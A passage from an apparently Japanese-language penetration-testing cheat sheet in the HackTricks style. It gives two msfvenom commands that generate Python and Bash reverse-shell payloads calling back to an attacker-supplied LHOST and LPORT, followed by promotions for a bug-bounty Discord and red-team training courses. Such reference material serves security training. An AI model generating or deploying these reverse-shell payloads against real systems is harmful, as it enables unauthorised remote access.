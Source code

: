 ### **Python**
```bash
msfvenom -p cmd/unix/reverse_python LHOST=(IP Address) LPORT=(Your Port) -f raw > reverse.py
```
### **Bash**
```bash
msfvenom -p cmd/unix/reverse_bash LHOST=<Local IP Address> LPORT=<Local Port> -f raw > shell.sh
```
{% endcode %}

<figure><img src="../../.gitbook/assets/image (380).png" alt=""><figcaption></figcaption></figure>

経験豊富なハッカーやバグバウンティハンターとコミュニケーションを取るために、[**HackenProof Discord**](https://discord.com/invite/N3FrSbmwdy)サーバーに参加しましょう！

**ハッキングの洞察**\
ハッキングのスリルと課題に深く掘り下げたコンテンツに参加する

**リアルタイムハックニュース**\
リアルタイムのニュースと洞察を通じて、急速に変化するハッキングの世界に遅れずについていく

**最新のお知らせ**\
新しいバグバウンティの開始や重要なプラットフォームの更新について情報を得る

**私たちに参加してください** [**Discord**](https://discord.com/invite/N3FrSbmwdy)で、今日からトップハッカーとコラボレーションを始めましょう！

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>HackTricksをサポートする</summary></details>
{% endhint %}
